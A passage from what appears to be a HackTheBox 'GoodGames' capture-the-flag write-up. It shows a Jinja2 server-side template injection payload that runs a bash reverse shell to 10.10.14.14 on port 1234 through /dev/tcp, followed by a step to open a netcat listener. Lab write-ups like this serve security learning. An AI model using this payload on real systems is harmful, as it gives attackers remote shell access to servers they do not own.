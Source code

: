 ![ssti_id](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/GoodGames/ssti_id.png?raw=true)

Now, we can just change the `id` portion of the payload to a reverse shell code.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "exec bash -i &>/dev/tcp/10.10.14.14/1234 <&1"').read() }}
```

Before we execute the code, we should open a netcat listener.
